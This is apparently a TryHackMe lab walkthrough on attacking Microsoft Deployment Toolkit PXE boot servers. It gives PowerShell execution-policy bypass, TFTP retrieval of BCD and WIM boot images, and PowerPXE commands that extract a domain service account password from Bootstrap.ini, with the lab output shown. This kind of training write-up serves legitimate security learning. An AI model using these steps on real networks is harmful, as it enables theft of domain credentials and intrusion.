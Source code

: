 # Microsoft Deployment Toolkit

Large organisations need tools to deploy and manage the infrastructure of the estate. In massive organisations, you 
can't have your IT personnel running around with DVDs or USB Flash for installing software on every single machine. 

Microsoft Deployment Toolkit (MDT) is used to deploy operating systems over the network using PXE boot; SCCM is used 
to manage hosts after they've been provisioned. Both of these technologies have the advantage of being a centralised 
management system for hosts. And, they also represent a massive attack surface.

If an attacker can pretend to be a PXE booting client on the network and request an image from MDT via a DHCP 
request, then the attacker could inject or scrape information from the PXE image during and after the setup process.

SSH into the jump host with password `Password1@`:

    ssh thm@THMJMP1.za.tryhackme.com

Create a working directory for the session using your username and copy the `powerpxe` directory into it:

    powershell -ep bypass
    mkdir Barzh
    cd Barzh
    cp -Recurse C:\powerpxe .

Go to `http://pxeboot.za.tryhackme.com/` Pretend to be a PXE client sending a DHCP request and receiving a list of 
BCD files for configuration. Copy the file name.

Use TFTP to connect to the MDT server and retrieve the BCD file and scrape it for credentials:

    tftp -i (Resolve-DnsName thmmdt.za.tryhackme.com).IPAddress GET "\Tmp\x64{BFA810B9-DF7D-401C-B5B6-2F4D37258344}.bcd" conf.bcd

Now have downloaded the BCD file and copied the powerpxe folder. Get the location of the WIM file, the Windows 
bootable image.

```text
Import-Module .\powerpxe\PowerPXE.ps1
$bcdfile = "conf.bcd"
Get-WimFile -bcdFile $bcdfile

>> Parse the BCD file: conf.bcd 
>>>> Identify wim file : \Boot\x64\Images\LiteTouchPE_x64.wim 
\Boot\x64\Images\LiteTouchPE_x64.wim
```

We know the path to download the image:

```text
$wimfile = '\Boot\x64\Images\LiteTouchPE_x64.wim'
$mdtserver = (Resolve-DnsName thmmdt.za.tryhackme.com).IPAddress
tftp -i $mdtserver GEt "$wimfile" pxeboot.wim

Transfer successful: 341899611 bytes in 277 second(s), 1234294 bytes/s
```

Scrape the image for credentials:

    Get-FindCredentials -WimFile .\pxeboot.wim
    
    >>>> Finding Bootstrap.ini 
    >>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$ 
    >>>> >>>> UserID = svcMDT
    >>>> >>>> UserDomain = ZA
    >>>> >>>> UserPassword = PXEBootSecure1@ 